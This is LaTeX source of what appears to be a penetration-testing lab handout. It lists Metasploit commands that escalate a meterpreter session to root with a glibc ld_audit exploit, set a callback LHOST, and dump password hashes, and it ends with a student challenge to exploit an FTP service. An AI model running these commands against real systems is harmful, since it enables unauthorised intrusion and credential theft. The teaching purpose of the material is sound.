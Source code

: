 \documentclass[twocolumn]{article}
\begin{document}
\subsection{Getting Admin access}

Once we obtained a session, we can execute some of the local exploits suggested by the previous script:

\begin{itemize}
    \item\texttt{meterpreter > background} (This will show a session name)
    \item\texttt{msf5 > use exploit/linux/local/\char`\\}\\
    \hspace*{2.25pt}\texttt{ > glibc\char`\_ld\char`\_audit\char`\_dso\char`\_load\char`\_priv\char`\_esc}
    \item\texttt{msf5 > set session 8} (This is the session we obtained by issuing \texttt{meterpreter > background})
    \item\texttt{msf5 > set LHOST 192.168.56.1} (This is the IP where the target will try to connect, so it has to be an IP we control and reachable by the target)
    \item\texttt{msf5 > run}
\end{itemize}

\noindent After we obtain root privileges, we can run more scripts, for example:

\begin{itemize}
    \item Get the password hashes:\\
    \texttt{meterpreter > run post/linux/gather/hashdump}
\end{itemize}

\section{Challenge}

We know there is an FTP service running in port 21 at our target. Exploit this service.

\begin{itemize}
    \item Find the program name and version.
    \item Find an exploit in Metasploit.
    \item Configure the exploit.
    \item Execute the exploit.
    \item Profit.
    \item Extra credit: If not root, get root.
\end{itemize}
\end{document}
